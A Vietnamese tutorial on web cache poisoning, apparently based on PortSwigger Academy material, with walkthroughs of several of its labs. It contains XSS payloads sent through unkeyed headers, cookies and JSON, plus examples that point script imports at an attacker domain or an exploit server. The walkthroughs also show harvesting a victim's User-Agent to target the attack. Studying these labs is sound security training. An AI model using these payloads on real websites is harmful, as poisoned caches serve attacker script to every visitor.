

# Exploiting cache design flaws

Trong phần này, chúng ta sẽ xem xét kỹ hơn cách các lỗ hổng đầu độc bộ nhớ đệm web có thể phát sinh do các lỗi chung trong thiết kế bộ nhớ đệm. Chúng tôi cũng sẽ trình bày cách khai thác những lỗi này.

Tóm lại, các trang web dễ bị đầu độc bộ nhớ đệm web nếu chúng xử lý dữ liệu đầu vào không có khóa theo cách không an toàn và cho phép lưu trữ các phản hồi HTTP tiếp theo. Lỗ hổng này có thể được sử dụng làm phương thức phân phối cho nhiều cuộc tấn công khác nhau.

# Using web cache poisoning to deliver an XSS attack

Có lẽ lỗ hổng đầu độc bộ nhớ đệm web đơn giản nhất để khai thác là khi dữ liệu đầu vào không có khóa được phản ánh trong phản hồi có thể lưu vào bộ nhớ đệm mà không được khử trùng đúng cách.

Ví dụ, hãy xem xét yêu cầu và phản hồi sau:

```http
GET /en?region=uk HTTP/1.1
Host: innocent-website.com
X-Forwarded-Host: innocent-website.co.uk

HTTP/1.1 200 OK
Cache-Control: public
<meta property="og:image" content="https://innocent-website.co.uk/cms/social.png" />
```

Tại đây, giá trị của tiêu đề X-Forwarded-Host được sử dụng để tạo động URL hình ảnh Open Graph, sau đó được phản ánh trong phản hồi. Quan trọng đối với việc đầu độc bộ nhớ đệm web, tiêu đề X-Forwarded-Host thường không được khóa. Trong ví dụ này, bộ nhớ đệm có khả năng bị nhiễm độc bằng phản hồi chứa tải trọng XSS đơn giản:

```http
GET /en?region=uk HTTP/1.1
Host: innocent-website.com
X-Forwarded-Host: a."><script>alert(1)</script>"

HTTP/1.1 200 OK
Cache-Control: public
<meta property="og:image" content="https://a."><script>alert(1)</script>"/cms/social.png" />
```

Nếu phản hồi này được lưu trong bộ nhớ đệm, tất cả người dùng đã truy cập `/en?region=uk` sẽ được phục vụ tải trọng XSS này. Ví dụ này chỉ khiến cảnh báo xuất hiện trên trình duyệt của nạn nhân, nhưng một cuộc tấn công thực sự có khả năng đánh cắp mật khẩu và chiếm đoạt tài khoản người dùng.

# Using web cache poisoning to exploit unsafe handling of resource imports

Một số trang web sử dụng tiêu đề không có khóa để tạo URL động nhằm nhập tài nguyên, chẳng hạn như tệp JavaScript được lưu trữ bên ngoài. Trong trường hợp này, nếu kẻ tấn công thay đổi giá trị của tiêu đề thích hợp thành tên miền mà chúng kiểm soát, chúng có khả năng thao túng URL để trỏ đến tệp JavaScript độc hại của chúng.

Nếu phản hồi chứa URL độc hại này được lưu vào bộ nhớ đệm, tệp JavaScript của kẻ tấn công sẽ được nhập và thực thi trong phiên trình duyệt của bất kỳ người dùng nào có yêu cầu có khóa bộ nhớ đệm trùng khớp.

```http
GET / HTTP/1.1
Host: innocent-website.com
X-Forwarded-Host: evil-user.net
User-Agent: Mozilla/5.0 Firefox/57.0

HTTP/1.1 200 OK
<script src="https://evil-user.net/static/analytics.js"></script>
```

--- 

## Ví dụ: Web cache poisoning with an unkeyed header

https://portswigger.net/web-security/web-cache-poisoning/exploiting-design-flaws/lab-web-cache-poisoning-with-an-unkeyed-header

Ở trang chủ ta thấy nó có tải thêm các file js, thêm header `X-Forwarded-Host: example.com` ta thấy các file js này sẽ được tải từ trang `example.com`:


Từ đây ta lên kịch bản: Ở server exploit thêm 1 đoạn js để khai thác:


Đổi đường dẫn về trùng với path tải file js:


Bây giờ đổi header `X-Forwarded-Host: exploit-0a4d00f803e09e4c824138cd017500ed.exploit-server.net`


Ta thấy nó được lưu vào cache, nên người tiếp theo truy cập trang chủ nó cũng sẽ lấy js từ server exploit nên sẽ thực thi js ta đã tiêm.

Sau `max-age:30` thì nó mới hết cache và sửa đổi lại thành như cũ

---

# Using web cache poisoning to exploit cookie-handling vulnerabilities

Cookie thường được sử dụng để tạo nội dung động trong phản hồi. Một ví dụ phổ biến có thể là cookie chỉ ra ngôn ngữ ưa thích của người dùng, sau đó được sử dụng để tải phiên bản tương ứng của trang:

```http
GET /blog/post.php?mobile=1 HTTP/1.1
Host: innocent-website.com
User-Agent: Mozilla/5.0 Firefox/57.0
Cookie: language=pl;
Connection: close
```

Trong ví dụ này, phiên bản tiếng Ba Lan của bài đăng trên blog đang được yêu cầu. Lưu ý rằng thông tin về phiên bản ngôn ngữ nào sẽ phục vụ chỉ có trong tiêu đề `Cookie`. Giả sử khóa bộ đệm chứa dòng yêu cầu và tiêu đề `Host` nhưng không chứa tiêu đề `Cookie`. Trong trường hợp này, nếu phản hồi cho yêu cầu này được lưu vào bộ nhớ đệm, thì tất cả người dùng tiếp theo cố gắng truy cập bài đăng trên blog này cũng sẽ nhận được phiên bản tiếng Ba Lan, bất kể họ thực sự chọn ngôn ngữ nào.

Việc xử lý cookie bị lỗi này của bộ nhớ đệm cũng có thể bị khai thác bằng các kỹ thuật đầu độc bộ nhớ đệm web. Tuy nhiên, trên thực tế, vectơ này tương đối hiếm khi so sánh với đầu độc bộ nhớ đệm dựa trên tiêu đề. Khi tồn tại lỗ hổng đầu độc bộ nhớ đệm dựa trên cookie, chúng có xu hướng được xác định và giải quyết nhanh chóng vì người dùng hợp pháp đã vô tình đầu độc bộ nhớ đệm.

---

## Ví dụ: Web cache poisoning with an unkeyed cookie

https://portswigger.net/web-security/web-cache-poisoning/exploiting-design-flaws/lab-web-cache-poisoning-with-an-unkeyed-cookie

Để ý ta thấy cookie được đưa vào đoạn mã js, ta thử thay đổi cookie này và thấy nó được áp vào:




Với cookie `fehost=someString"-alert(1)-"someString` ta có thể thực thi `alert`:


---

# Using multiple headers to exploit web cache poisoning vulnerabilities

Một số trang web dễ bị khai thác bằng cách đầu độc bộ nhớ đệm web đơn giản, như đã trình bày ở trên. Tuy nhiên, một số khác lại yêu cầu các cuộc tấn công phức tạp hơn và chỉ trở nên dễ bị tấn công khi kẻ tấn công có thể tạo ra một yêu cầu thao túng nhiều dữ liệu đầu vào không có khóa.

Ví dụ, giả sử một trang web yêu cầu giao tiếp an toàn bằng HTTPS. Để thực thi điều này, nếu nhận được yêu cầu sử dụng giao thức khác, trang web sẽ tự động tạo chuyển hướng đến chính nó sử dụng HTTPS:

```http
GET /random HTTP/1.1
Host: innocent-site.com
X-Forwarded-Proto: http

HTTP/1.1 301 moved permanently
Location: https://innocent-site.com/random
```

Bản thân hành vi này không hẳn là dễ bị tổn thương. Tuy nhiên, bằng cách kết hợp điều này với những gì chúng ta đã tìm hiểu trước đó về lỗ hổng trong các URL được tạo động, kẻ tấn công có khả năng khai thác hành vi này để tạo ra phản hồi có thể lưu vào bộ nhớ đệm nhằm chuyển hướng người dùng đến một URL độc hại.

---

## Ví dụ: Web cache poisoning with multiple headers

https://portswigger.net/web-security/web-cache-poisoning/exploiting-design-flaws/lab-web-cache-poisoning-with-multiple-headers

Đầu tiên ta thử với header `X-Forwarded-Host: example.com` nhưng không có gì thay đổi ở response

Tiếp theo ta thử với header `X-Forwarded-Scheme: nothttps` nó sẽ phản hồi 302 để redirect về `https`

Thử kết hợp với 2 header này ta thấy nó sẽ redirect đến `example.com/resource...`


Vào server exploit và thay đổi path và body:


Sau đó request tới server exploit:


Gửi lại cho khi nhận được `hit`

Và tải lại trang ta nhận được kết quả:


---

# Exploiting responses that expose too much information

Đôi khi, các trang web dễ bị nhiễm độc bộ nhớ đệm web hơn bằng cách cung cấp quá nhiều thông tin về trang web và hành vi của trang web.

## Cache-control directives

Một trong những thách thức khi xây dựng một cuộc tấn công đầu độc bộ nhớ đệm web là đảm bảo rằng phản hồi có hại được lưu vào bộ nhớ đệm. Điều này có thể liên quan đến rất nhiều lần thử và sai thủ công để nghiên cứu cách bộ nhớ đệm hoạt động. Tuy nhiên, đôi khi phản hồi lại tiết lộ rõ ​​ràng một số thông tin mà kẻ tấn công cần để đầu độc bộ nhớ đệm thành công.

Một ví dụ như vậy là khi phản hồi chứa thông tin về tần suất xóa bộ nhớ đệm hoặc thời gian phản hồi được lưu trong bộ nhớ đệm hiện tại:

```http
HTTP/1.1 200 OK
Via: 1.1 varnish-v4
Age: 174
Cache-Control: public, max-age=1800
```

Mặc dù điều này không trực tiếp dẫn đến lỗ hổng đầu độc bộ nhớ đệm web, nhưng nó giúp kẻ tấn công tiết kiệm một số công sức thủ công liên quan vì chúng biết chính xác thời điểm gửi dữ liệu của mình để đảm bảo dữ liệu được lưu vào bộ nhớ đệm.

Kiến thức này cũng cho phép các cuộc tấn công tinh vi hơn nhiều. Thay vì tấn công máy chủ back-end bằng các yêu cầu cho đến khi một yêu cầu bị chặn, điều này có thể gây nghi ngờ, kẻ tấn công có thể cẩn thận căn thời gian cho một yêu cầu độc hại duy nhất để đầu độc bộ nhớ đệm.

## Vary header

Cách cơ bản mà tiêu đề `Vary` thường được sử dụng cũng có thể cung cấp cho kẻ tấn công thông tin. Tiêu đề `Vary` chỉ định danh sách các tiêu đề bổ sung cần được coi là một phần của khóa bộ đệm ngay cả khi chúng thường không có khóa. Nó thường được sử dụng để chỉ định rằng tiêu đề `User-Agent` được mã hóa, ví dụ, để nếu phiên bản dành cho thiết bị di động của trang web được lưu vào bộ nhớ đệm, thì phiên bản này sẽ không được cung cấp cho người dùng không sử dụng thiết bị di động một cách nhầm lẫn.

Thông tin này cũng có thể được sử dụng để xây dựng một cuộc tấn công nhiều bước nhằm vào một nhóm người dùng cụ thể. Ví dụ, nếu kẻ tấn công biết rằng tiêu đề `User-Agent` là một phần của khóa bộ đệm, bằng cách đầu tiên xác định tác nhân người dùng của nạn nhân dự định, chúng có thể điều chỉnh cuộc tấn công sao cho chỉ những người dùng có tác nhân người dùng đó mới bị ảnh hưởng. Ngoài ra, họ có thể tìm ra tác nhân người dùng nào được sử dụng phổ biến nhất để truy cập trang web và điều chỉnh cuộc tấn công để tác động đến số lượng người dùng tối đa theo cách đó.

---

## Ví dụ: Targeted web cache poisoning using an unknown header

https://portswigger.net/web-security/web-cache-poisoning/exploiting-design-flaws/lab-web-cache-poisoning-targeted-using-an-unknown-header

Tìm header có thể đầu độc: Chạy `Param Miner` ở chế độ `Guess header` và tìm được header `X-Host`


Chạy `X-Host: example.com` ta nhận được:


Thay path và body phía server exploit:


Thay `X-Host` trỏ đến server exploit và load lại:


Bây giờ ta chú ý đến `Vary: User-Agent` tức là cache sẽ trả về khác nhau theo `User-Agent` khác nhau:


Từ đây ta cần đi tìm `User-Agent` của victim, ta tạo 1 comment dạng ảnh để mỗi khi victim vào nó sẽ tự load ảnh (URL đến exploit server) để biết được user-agent: ``


Từ đây ta đầu độc cache của victim:


Và chờ cho victim tải `/` ta thành công

---

# Using web cache poisoning to exploit DOM-based vulnerabilities

Như đã thảo luận trước đó, nếu trang web sử dụng tiêu đề không có khóa để nhập tệp một cách không an toàn, thì kẻ tấn công có thể lợi dụng điều này để nhập tệp độc hại thay thế. Tuy nhiên, điều này không chỉ áp dụng cho tệp JavaScript.

Nhiều trang web sử dụng JavaScript để lấy và xử lý dữ liệu bổ sung từ back-end. Nếu một tập lệnh xử lý dữ liệu từ máy chủ theo cách không an toàn, điều này có khả năng dẫn đến mọi loại lỗ hổng dựa trên DOM.

Ví dụ, kẻ tấn công có thể đầu độc bộ nhớ đệm bằng phản hồi nhập tệp JSON có chứa nội dung sau:

```json
{"someProperty" : "<svg onload=alert(1)>"}
```

Nếu sau đó trang web chuyển giá trị của thuộc tính này vào một bộ đệm hỗ trợ thực thi mã động, thì dữ liệu sẽ được thực thi trong bối cảnh phiên trình duyệt của nạn nhân.

Nếu bạn sử dụng đầu độc bộ nhớ đệm web để khiến một trang web tải dữ liệu JSON độc hại từ máy chủ của mình, bạn có thể cần cấp cho trang web quyền truy cập vào JSON bằng CORS:

```http
HTTP/1.1 200 OK
Content-Type: application/json
Access-Control-Allow-Origin: *

{
    "malicious json" : "malicious json"
}
```

---

## Ví dụ: Web cache poisoning to exploit a DOM vulnerability via a cache with strict cacheability criteria

https://portswigger.net/web-security/web-cache-poisoning/exploiting-design-flaws/lab-web-cache-poisoning-to-exploit-a-dom-vulnerability-via-a-cache-with-strict-cacheability-criteria

Đầu tiên dùng `Param miner` tìm header: `x-forwarded-host`


Thử với `X-Forwarded-Host: example.com` ta nhận được:


Tại đây lướt xuống ta thấy `data.host` được đưa vào hàm `initGeoLocate` để làm đầu vào:


Xem thử hàm `initGeoLocate` nó tải 1 file json và đưa vào chuỗi:


Trong đó chuỗi json dạng:

```json
{
    "country": "United Kingdom"
}
```

Từ đây ta đổi path, thêm `Access-Control-Allow-Origin: *` và body ở exploit server:


Load lại ta được:


---

# Chaining web cache poisoning vulnerabilities

Như chúng ta đã thấy trước đó, đôi khi kẻ tấn công chỉ có thể tạo ra phản hồi độc hại bằng cách tạo yêu cầu sử dụng nhiều tiêu đề. Nhưng điều tương tự cũng đúng với các loại tấn công khác nhau. Việc đầu độc bộ nhớ đệm web đôi khi đòi hỏi kẻ tấn công phải kết hợp nhiều kỹ thuật mà chúng ta đã thảo luận. Bằng cách liên kết các lỗ hổng khác nhau, người ta thường có thể phát hiện thêm nhiều lớp lỗ hổng ban đầu không thể khai thác được.

---

## Ví dụ: Combining web cache poisoning vulnerabilities

https://portswigger.net/web-security/web-cache-poisoning/exploiting-design-flaws/lab-web-cache-poisoning-combining-vulnerabilities

Đầu tiên ta tìm kiếm header đầu độc bằng `Param miner`


Với `X-Forwarded-Host` ta đổi được source nó tải json để thay đổi ngôn ngữ vào hàm và từ đây thao túng DOM:


Request trực tiếp đến ngôn ngữ là `es`:


Tiếp tục vì người dùng dùng English mặc định, mà English thì sẽ không đầu độc được nên ta phải chuyển hướng người dùng về ngôn ngữ khác:


Dùng `X-Original-Url:` để chuyển hướng


Nhưng vì cách này khi gửi lại nhiều lần request nó vẫn không chuyển `X-Cache: miss` sang `hit` ta hiểu là nó không lưu vào cache


Nhưng khi thêm 1 số hậu tố để nó hiểu là file tĩnh thì đã có thể lưu vào cache

Từ đây ta gửi request đầu tiên để đầu độc json tải về để setup ngôn ngữ, trong lúc vẫn đang được lưu trong cache ở request 1 ta gửi request 2 để victim khi vào `/` sẽ chuyển hướng về `/?localized=1` nơi cache bị đầu độc


